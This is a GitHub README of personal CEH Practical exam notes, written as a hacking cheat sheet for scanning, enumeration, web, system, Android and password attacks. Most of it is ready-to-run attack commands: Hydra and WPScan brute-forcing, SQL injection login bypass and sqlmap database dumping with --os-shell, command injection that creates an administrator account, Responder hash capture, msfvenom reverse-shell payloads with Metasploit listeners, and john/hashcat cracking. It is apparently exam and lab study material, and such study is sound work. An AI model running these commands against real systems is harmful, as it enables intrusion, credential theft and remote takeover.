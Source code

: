 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking - Enumeration
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
* Enum
```console
1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)
  ```
</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
* To find FQDN (Find the FQDN in a subnet/network)
```console
nmap -p389 –sV -iL <target_list>
```
```console
 nmap -p389 –sV <target_IP>
```

* Scanning Networks (always do sudo su) --> To be root

  Nmap scan for alive/active hosts command for 192.189.19.18
```console
nmap -A 192.189.19.0/24 or nmap -T4 -A ip
```
  
Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command 
```console
nmap -sT -v 10.10.10.16
```
  
Nmap scan if firewall/IDS is opened, half scan 
```console
nmap -sS -v 10.10.10.16 
```
  
If even this the above command is not working then use this command  
```console
namp -f 10.10.10.16
```
Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use
```console
nmap -A 192.168.92.10
```

If host is windows then use this command - this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
```console
nmap --script smb-os-discovery.nse 192.168.12.22 
```

nmap command for source port manipulation, in this port is given or we use common port  
```console
nmap -g 80 10.10.10.10
```
```console  
-A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
```
```console  
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
```
Some extra RDP info
```console
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
```
Some extra MYSQL info
```console
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)
```

</details>


<details>
  <summary>🔢 Enumeration Cheatsheet </summary>
	
# 🔢 Enumeration Cheatsheet

#### **General Enumeration:**

* ```
  nmap -vv -Pn -A -sC -sS -T 4 -p- 10.0.0.1
  ```
  * Verbose, syn, all ports, all scripts, no ping
* ```
  nmap -v -sS -A -T4 x.x.x.x
  ```
  * Verbose, SYN Stealth, Version info, and scripts against services.
* ```
  nmap –script smb-check-vulns.nse –script-args=unsafe=1 -p445 [host]
  ```
  * Nmap script to scan for vulnerable SMB servers – WARNING: unsafe=1 may cause knockover
* ```
  netdiscover -r 192.168.1.0/24
  ```

#### **FTP Enumeration (21):** <a href="#toc475368978" id="toc475368978"></a>

* ```
  nmap –script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
  ```

#### **SSH (22):** <a href="#toc475368979" id="toc475368979"></a>

* ```
  ssh INSERTIPADDRESS 22
  ```

#### **SMTP Enumeration (25):** <a href="#toc475368980" id="toc475368980"></a>

* ```
  nmap –script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1
  ```
* ```
  nc -nvv INSERTIPADDRESS 25
  ```
* ```
  telnet INSERTIPADDRESS 25
  ```

#### **Finger Enumeration (79):** <a href="#toc494187363" id="toc494187363"></a>

Download script and run it with a wordlist: [http://pentestmonkey.net/tools/user-enumeration/finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

#### **Web Enumeration (80/443):** <a href="#toc475368981" id="toc475368981"></a>

* dirbuster (GUI)
* ```
  dirb http://10.0.0.1/
  ```
* ```
  nikto –h 10.0.0.1
  ```

#### **Pop3 (110):** <a href="#toc475368982" id="toc475368982"></a>

* ```
  telnet INSERTIPADDRESS 110
  ```
* ```
  USER [username]
  ```
* ```
  PASS [password]
  ```
  * To login
* ```
  LIST
  ```
  * To list messages
* ```
  RETR [message number]
  ```
  * Retrieve message
* ```
  QUIT
  ```
  * quits

#### **RPCBind (111):** <a href="#toc475368983" id="toc475368983"></a>

* ```
  rpcinfo –p x.x.x.x
  ```

#### **SMB\RPC Enumeration (139/445):** <a href="#toc475368984" id="toc475368984"></a>

* ```
  enum4linux –a 10.0.0.1
  ```
* `nbtscan x.x.x.x`
  * Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
* ```
  py 192.168.XXX.XXX 500 50000 dict.txt
  ```
* ```
  python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
  ```
* ```
  nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
  ```
* ```
  smbclient -L //INSERTIPADDRESS/
  ```
  * List open shares
* ```
  smbclient //INSERTIPADDRESS/ipc$ -U john
  ```

#### **SNMP Enumeration (161):** <a href="#toc475368985" id="toc475368985"></a>

* ```
  snmpwalk -c public -v1 10.0.0.0
  ```
* ```
  snmpcheck -t 192.168.1.X -c public
  ```
* ```
  onesixtyone -c names -i hosts
  ```
* ```
  nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
  ```
* ```
  snmpenum -t 192.168.1.X
  ```

#### **Oracle (1521):** <a href="#toc475368986" id="toc475368986"></a>

* ```
  tnscmd10g version -h INSERTIPADDRESS
  ```
* ```
  tnscmd10g status -h INSERTIPADDRESS
  ```

#### **Mysql Enumeration (3306):** <a href="#toc475368987" id="toc475368987"></a>

* ```
  nmap -sV -Pn -vv  10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
  ```

#### **DNS Zone Transfers:** <a href="#toc475368988" id="toc475368988"></a>

* ```
  nslookup -> set type=any -> ls -d blah.com
  ```
* ```
  dig axfr blah.com @ns1.blah.com
  ```
  * This one works the best in my experience
* ```
  dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
  ```

#### **Mounting File Share** <a href="#toc475368989" id="toc475368989"></a>

* ```
  showmount -e IPADDR
  ```
* ```
  mount 192.168.1.1:/vol/share /mnt/nfs  -nolock
  ```
  * mounts the share to /mnt/nfs without locking it
* ```
  mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs
  ```
  * Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI (more secure as it wont end up in bash\_history)
* ```
  net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no
  ```
  * Mount a Windows share on Windows from the command line
* ```
  apt-get install smb4k –y
  ```
  * Install smb4k on Kali, useful Linux GUI for browsing SMB shares

#### **Fingerprinting:  Basic versioning / finger printing via displayed banner** <a href="#toc475368990" id="toc475368990"></a>

* ```
  nc -v 192.168.1.1 25
  ```
* ```
  telnet 192.168.1.1 25
  ```

#### **Exploit Research** <a href="#toc475368991" id="toc475368991"></a>

* ```
  searchsploit windows 2003 | grep -i local
  ```
  * Search exploit-db for exploit, in this example windows 2003 + local esc

#### **Compiling Exploits** <a href="#toc475368992" id="toc475368992"></a>

* ```
  gcc -o exploit exploit.c
  ```
  * Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linux
* ```
  i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
  ```
  * Compile windows .exe on Linux

#### **Packet Inspection:** <a href="#toc475368993" id="toc475368993"></a>

* ```
  tcpdump tcp port 80 -w output.pcap -i eth0
  ```
  * tcpdump for port 80 on interface eth0, outputs to output.pcap

\
**
</details>

  <details>
  <summary>Wireshark</summary>
    
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS (SYN and ACK) : 
```console
tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0
```
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
* Wireshark summary
   
  ```console
  tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

  tcp.flags.syn == 1   (Which machine for dos)

  http.request.method == POST   (for passwords) or click tools ---> credentials Also
  ```

 * Password Sniffing using Wireshark.  
In pcap file apply filter:- (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```console
http.request.method==POST
```
### wireshark filters
```console
### wireshark filters

# // filters by post
http.request.method==POST
smtp // email
pop // email
dns.qry.type == 1 -T fields -e dns.qry.name = show records present in this pcap
dns.flags.response == 0 = There are 56 unique DNS queries.
tcp // show tcp packets
# //find packets
edit > find packets > packet list : packet bytes > case sensitive: strings > string "pass" :search

# //DDOS ATTACK
look number of packets first column
then >statistics > ipv4 statistics > destination and ports

# ///Capture Packets with tcpdump
tcpdump -i eth0 -w capture.pcap

# ///Analyze with Wireshark filters
http.request.method == "POST"
ftp.request.command == "USER" || ftp.request.command == "PASS"

# /// tshark cli
tshark -r dns.cap | wc -l //count how many packets are in a capture
tshark -r dns.cap -Y "dns.qry.type == 1" -T fields -e dns.qry.name //show records present in this pcap
tshark -r dnsexfil.pcap -Y "dns.flags.response == 0" | wc -l 
tshark -r pcap -T fields -e dns.qry.name | uniq | wc -l //There are 56 unique DNS queries.
tshark -r pcap | head -n2 //DNS server side to identify 'special' queries
tshark -r pcap -Y "dns.flags.response == 0" -T fields -e "dns.qry.name" | sed "s/.m4lwhere.org//g" | tr -d "\n" `exfiltrate data with regx`
```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

 

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    
  ```console
    ftp x.x.x.x
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
	
<summary>HACKING WEB</summary>

@@ Hacking Web servers

```console
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP port using nmap-
nmap -p 21 10.10.10.10 (check if it is open or not)

ftp 10.10.10.10 (To see if it is directly connecting or need credentials if need. Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. )

Now in terminal type-
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
or
hydra -l user -P passlist.txt ftp://10.10.10.10
```

@@ Hacking Web Application
```console
1- Scan Using OWASP ZAP (Parrot)- Type 'zaproxy' in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA- (u means username) 
wpscan --url http://10.10.10.10:8080/NEW --enumerate u  

Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
 </details>
<details>

 <summary>Enumeration</summary>

### Banner Grabbing
```console
nc -nv 192.168.1.5 80              # Netcat to check web server banner
 ```

 ### dir enumeration

 ```console
gobuster dir -u 10.10.. -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt -q
```
```console
dir : directory listing
-u : host
-w : wordlists
-t : threads int / Number of concurrent threads (default 10)
-x : enumerate hidden files htm, php
-q : –quiet / Don’t print the banner and other noise

// wordpress enumeration
wpscan --url https://localchost.com --passwords=
wpscan -u 10.10.. -e u vp
wpscan -u 10.10.. -e u --wordlist path/rockyou.txt //bruteforce

-e = enumerate
u = enumerate usernames
vp = vulnerable plugins

// wordlist generation
cewl -w wordlist -d 2 -m 5 http://wordpress.com
-d = deeph of the scanning
-m = long of the words
-w = save to a file worlist
```
### enumerating -samba
```console
search for commands
smbmap --help | grep -i username

smbmap -u "admin" -p "passowrd" -H 10.10.10.10 -x "ipconfig"
-x = command
```
</details>
<details>

  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>

 Summary
 ```console
1- Auth Bypass-  hi'OR 1=1 --

2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables

5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)

6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

6.1 In the shell type-   TASKLIST  (to view the tasks)

6.2 Use systeminfo for windows to get all os version

6.3 Use uname -a for linux to get os version
```
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```

### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />  

  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />  

  
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
<summary>Android</summary>

  ## Android
  
```console
1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```

  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking & Hashing



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra
### GUI
```console
xhydra
```

### RDP
```console
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```
### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh

hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```
```console
hydra -t4 -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.11
hydra -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.118
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

hydra -l user -P passlist.txt ftp://10.10.10.10
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### SMB
```console
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth
```console
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```
### HTTP POST
```console
# HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
```
### IMAP
```console
# IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```
### POP
```console
# POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

### Post Web Form
```console
hydra -l -P 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```


### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
### Other Examples
```console
Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH
hydra -L username.txt rsh://10.0.2.5 -V

RSP
hydra -l root -P passwords.txt <IP> rtsp

SMTP
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL

Telnet
hydra -l root -P passwords.txt [-t 32] <IP> telnet

VNC
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```
</details>

<details>
<summary>hash</summary>

## hash
<summary>hash</summary>

### Using Hashcat
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

### hashcat -a attack mode -m hashtype 900 md4 1000 NTLM 1800 SHA512CRYPT 110 SHA1 with SALT HASH 0 MD5 100 SHA1 1400 SHA256 3200 BCRYPT 160 HMAC-SHA1
```console
Hashcat -a 3 -m 900 hash.txt /rockyou.txt
```
### Hash Identifier 
```console
https://www.onlinehashcrack.com/hash-identification.php
```
### Hash-identifier (CLI)
#### Hash Crack 
```console
https://crackstation.net/ https://hashes.com/en/decrypt/hash
```

</details>



<details>
<summary>John</summary>

# John

### Using John
```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


## Commands Formats

```console
john --list=formats
```

### Crack SHA1

```console
john  --format=raw-sha1 hash.txt
```

### Crack MD5

```console
john --format=raw-md5 hash.txt
```

### Cracking Shadow Files

# Unshadow
unshadow passwd.txt shadow.txt > unshadowed.txt


# John
		
john /etc/shadow

<strong># Wordlist
john --wordlist=&#x3C;password.txt> /etc/shadow

### Cracking Zip Files

```console
# Zip to John
zip2john file.zip > ziphash.txt

```
```console
# John
john --format=zip ziphash.txt
```

### Crack .pfx File

```console
pfx2john <pfx file> > hash.txt

john hash.txt --wordlist=<wordlist location>
```

### Crack GPG Passphrase

**Read More** [Here](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html)

```console
gpg2john priv.key > hash 

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Crack SSH Passphrase

```console
ssh2john /home/chinju/.ssh/id_rsa > ssh_hash.txt

john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

 </details>
  
# Steganography
  

## Steganography	  
### Extract files from images
```console
steghide extract -sf secret.jpg
```
### Find hidden strings
```console
strings suspect.png | less
 ```
  <details>
	  <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
kali Hide Data Using Whitespace Stegnography- (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
```console
snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  
```
To Display Hidden Data-(then it will show the content of readme2.txt content) 
```console
snow -C -p "magic" readme2.txt
```
<img src="/IMG/Snow.png"/>

</details>

<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
